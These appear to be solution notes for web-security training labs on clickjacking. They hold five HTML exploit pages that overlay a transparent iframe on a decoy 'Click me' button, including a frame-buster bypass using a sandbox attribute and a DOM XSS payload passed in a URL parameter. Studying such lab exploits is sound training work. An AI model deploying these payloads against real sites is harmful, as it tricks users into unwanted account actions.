 ## Clickjacking

### Basic clickjacking with CSRF token protection

TODO
```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.0000001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:310px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://acb51fbc1faf3227801a430500410078.web-security-academy.net/account"></iframe>
```

### Clickjacking with form input data prefilled from a URL parameter

```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:420px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://aca41f091f5bb2d980ee3bc400f600de.web-security-academy.net/email?email=foo@bar.com"></iframe>
```

### Clickjacking with a frame buster script

```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:400px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://ac541f331f3b3af8801a0f9a009f0035.web-security-academy.net/email?email=foo@bar.com"></iframe>
```

### Exploiting clickjacking vulnerability to trigger DOM-based XSS

```html
<style>
    iframe {
        position:relative;
        width: 1000px;
        height: 800px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:720px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://acfa1f681fa8caab8000ccba007700bf.web-security-academy.net/feedback?name=<img src=1 onerror=alert(1)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
XSS exploit: `?name=<img src=1 onerror=alert(1)>`


### Multistep clickjacking

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.00001;
        z-index: 2;
    }

    div {
        position: absolute;
        top: 285px;
        left: 50px;
        z-index: 1;
    }

    .second {
        position: absolute;
        top: 285px;
        left: 250px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<div class="second">Click me</div>
<iframe src="https://ac451fab1e2281e08016312a0030004b.web-security-academy.net/account"></iframe>
```